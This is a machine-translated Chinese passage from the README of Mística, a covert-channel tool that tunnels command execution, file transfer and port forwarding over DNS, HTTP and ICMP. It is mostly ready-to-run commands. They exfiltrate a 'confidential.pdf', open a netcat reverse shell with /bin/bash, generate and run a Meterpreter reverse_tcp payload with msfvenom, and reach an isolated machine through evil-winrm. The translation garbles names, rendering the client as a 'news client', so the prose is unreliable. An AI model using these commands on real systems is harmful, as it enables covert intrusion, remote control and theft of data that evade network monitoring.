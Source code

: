 **壳牌&木卫一**

通过组合`io`和`shell`模块，您可以使用 mística 通过自定义通道远程执行命令。示例:

*   使用 TXT 查询通过 DNS 在客户端系统上执行命令。
    *   米斯蒂卡服务器:`**sudo ./ms.py -m io:dns -k "rc4testkey" -s "--hostname x.x.x.x --port 53"**`
    *   新闻客户端:`**./mc.py -m shell:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53"**`
*   使用 GET 请求通过 HTTP 在服务器系统上执行命令:
    *   米斯蒂卡服务器:`**./ms.py -m shell:http -k "rc4testkey" -s "--hostname x.x.x.x --port 8000"**`
    *   新闻客户端:`**./mc.py -m io:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000"**`
*   通过 ICMP 在客户端系统上执行命令:
    *   米斯蒂卡服务器:`**./ms.py -m io:icmp -k "rc4testkey" -s "--iface eth0"**`
    *   新闻客户端:`**./mc.py -m shell:icmp -k "rc4testkey" -w "--hostname x.x.x.x"**`
*   使用 IO 模块和重定向运算符通过 HTTP 过滤文件:
    *   米斯蒂卡服务器:`**./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k "rc4testkey" -vv > confidential.pdf**`
    *   Mística 客户端(**从 cmd** 运行很重要):`**type confidential.pdf | E:\Mistica\WPy64-3741\python-3.7.4.amd64\python.exe .\mc.py -m io:http -w "--hostname x.x.x.x --port 80" -k "rc4testkey" -vv**`

**使用 tcpconnect 和 tcplisten 进行端口转发**

*   通过 HTTP 的远程端口转发(从服务器看)。客户端上的地址`**127.0.0.1:4444**`将被转发到服务器上的地址`**127.0.0.1:5555**`。肯定已经有东西在监听`5555`。
    *   米斯蒂卡服务器:`**./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 5555"**`
    *   新闻客户端:`**./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"**`
*   DNS 上的本地端口转发(从服务器看)。服务器上的地址`127.0.0.1:4444`将被转发到客户端上的地址`127.0.0.1:5555`。肯定已经有东西在监听`5555`。
    *   米斯蒂卡服务器:`**sudo ./ms.py -m tcplisten:dns -k "rc4testkey" -s "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 4444"**`
    *   新闻客户端:`**./mc.py -m tcpconnect:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 5555"**`
*   在 linux 客户端使用 netcat 的 HTTP 反向 shell。
    *   Netcat 监听器(在服务器上): **`nc -nlvp 5555`**
    *   **米斯蒂卡服务器:`./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 5555"`**
    *   新闻客户端:`**./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"**`
    *   Netcat Shell(在 linux 客户端):`**ncat -nve /bin/bash 127.0.0.1 4444**`
*   使用端口转发在 DNS 上运行`**meterpreter_reverse_tcp**` (linux)。使用`**msfvenom -p linux/x64/meterpreter_reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f elf -o meterpreter_reverse_tcp_localhost_4444.bin**`生成的有效载荷
    *   在服务器上运行`msfconsole`并使用`handler **-p linux/x64/meterpreter_reverse_tcp -H 127.0.0.1 -P 5555**`启动处理程序
    *   米斯蒂卡服务器:`**sudo ./ms.py -m tcpconnect:dns -k "rc4testkey" -s "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 5555"**`
    *   新闻客户端:`**./mc.py -m tcplisten:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 4444"**`
    *   在客户端运行 meter preter:`**./meterpreter_reverse_tcp_localhost_4444.bin**`
*   [EvilWinrm](https://github.com/Hackplayers/evil-winrm) over ICMP 使用跳转机器访问孤立机器。
    *   神秘服务器:`**./ms.py -m tcplisten:icmp -s "--iface eth0" -k "rc4testkey" -o "--address 127.0.0.1 --port 5555 --persist" -vv**`
    *   神秘客户:`**python.exe .\mc.py -m tcpconnect:icmp -w "--hostname x.x.x.x" -k "rc4testkey" -o "--address x.x.x.x --port 5985 --persist" -vv**`
    *   EvilWinrm 控制台(在 C2 机器上):`**evil-winrm -u Administrador -i 127.0.0.1 -P 5555**`
